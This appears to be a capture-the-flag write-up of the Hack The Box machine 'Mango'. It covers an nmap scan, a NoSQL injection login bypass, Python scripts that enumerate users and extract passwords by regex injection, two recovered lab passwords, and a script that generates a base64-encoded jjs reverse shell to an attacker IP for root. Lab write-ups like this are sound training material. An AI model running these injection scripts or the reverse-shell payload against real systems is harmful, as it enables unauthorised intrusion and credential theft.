# Introduction

## Enumeration

### Nmap

```nohighlight
# Nmap 7.92 scan initiated Fri Aug  5 15:56:07 2022 as: nmap -sS -sCV -oA scans/nmap/init -Pn 10.10.10.162
Nmap scan report for 10.10.10.162
Host is up (0.022s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a8:8f:d9:6f:a6:e4:ee:56:e3:ef:54:54:6d:56:0c:f5 (RSA)
|   256 6a:1c:ba:89:1e:b0:57:2f:fe:63:e1:61:72:89:b4:cf (ECDSA)
|_  256 90:70:fb:6f:38:ae:dc:3b:0b:31:68:64:b0:4e:7d:c9 (ED25519)
80/tcp  open  http     Apache httpd 2.4.29 ((Ubuntu))
|_http-title: 403 Forbidden
|_http-server-header: Apache/2.4.29 (Ubuntu)
443/tcp open  ssl/http Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Mango | Search Base
| ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
| Not valid before: 2019-09-27T14:21:19
|_Not valid after:  2020-09-26T14:21:19
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Aug  5 15:56:24 2022 -- 1 IP address (1 host up) scanned in 17.07 seconds
```

### Websites

- nmap shows a hostname, so we update /etc/hosts



- going to http://mango.htb gives 403 forbidden, but http://staging-order.mango.htb gives a login page




- https://mango.htb gives a search engine, https://staging-order.mango.htb goes to the same page


- found a page for analytics.php on the https site with Gobuster. The license key for the app is expired though, and is thus useless




### NoSQL Injection

- can bypass login with nosql injection

[PayloadAllTheThings - nosql injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection#exploits)




- can enum users and discover passwords with some scripts
```python
#!/usr/bin/env python3
# search_users.py
# verifies a user exists

import requests
import string

u="http://staging-order.mango.htb"
headers={'content-type': 'application/x-www-form-urlencoded'}

username=sys.argv[1]

payload='username[$regex]=^{}&password[$gt]='.format(username)
r = requests.post(u, data = payload, headers = headers, verify = False, allow_redirects = False)
if r.status_code == 302:
    print("valid user: {}".format(username))
```
```python
#!/usr/bin/env python3
# dump_users.py
# Supply a username and it will dump the password of that user the script runs forever,
# but once the ending of the password ends in "$" over and over again, its done.

import sys
import urllib.parse
import requests
import string

username=sys.argv[1]
password=""
u="http://staging-order.mango.htb"
headers={'content-type': 'application/x-www-form-urlencoded'}

while True:
    for c in string.printable:
        if c not in ['*','+','.','?','|']:
            c = urllib.parse.quote_plus(c)
            payload='username[$eq]={}&password[$regex]=^{}'.format(username, password + c)
            r = requests.post(u, data = payload, headers = headers, verify = False, allow_redirects = False)
            if r.status_code == 302:
                password += urllib.parse.unquote(c)
                print(password)

```
- credentials
    - admin:t9KcS3>!0B#2
    - mango:h3mXK8RhU~f{]f5H

- mango's creds can be used for ssh



- was using mongodb for the staging server

- jjs has the suid bit set and should be runnable s the admin user



- cant ssh as admin but can su to admin with the previously found password





- this is probably what need to do, but it aint working very good

[gtfobins jjs](https://gtfobins.github.io/gtfobins/jjs/#reverse-shell)
[jjs shell scripting docs](https://docs.oracle.com/javase/8/docs/technotes/guides/scripting/nashorn/shell.html)
[Useful article](https://cornerpirate.com/2018/08/17/java-gives-a-shell-for-everything/)

- Using the command on gtfobins only gives a shell as admin, but running bash with -p
  maintains root privileges.



```python
#!/usr/bin/env python3
# gen_payload.py
# generates a payload for jjs that can be copy pasted into the target machine. will
# create a reverse shell at LHOST:LPORT

import base64

LHOST = "10.10.14.11"
LPORT = 4444

payload = (
    'var ProcessBuilder = Java.type("java.lang.ProcessBuilder");'
    'var p=new ProcessBuilder("/bin/bash", "-i", "-p").redirectErrorStream(true).start();'
    'var Socket = Java.type("java.net.Socket");'
    f'var s=new Socket("{LHOST}",{LPORT});'
    'var pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();'
    'var po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){ while(pi.available()>0)so.write(pi.read()); while(pe.available()>0)so.write(pe.read()); while(si.available()>0)po.write(si.read()); so.flush();po.flush(); Java.type("java.lang.Thread").sleep(50); try {p.exitValue();break;}catch (e){}};p.destroy();s.close();'
)
payload = base64.b64encode(payload.encode())
payload = payload.decode("utf-8")

print(f"echo \"eval(new java.lang.String(java.util.Base64.decoder.decode('{payload}')));\" | jjs")

```



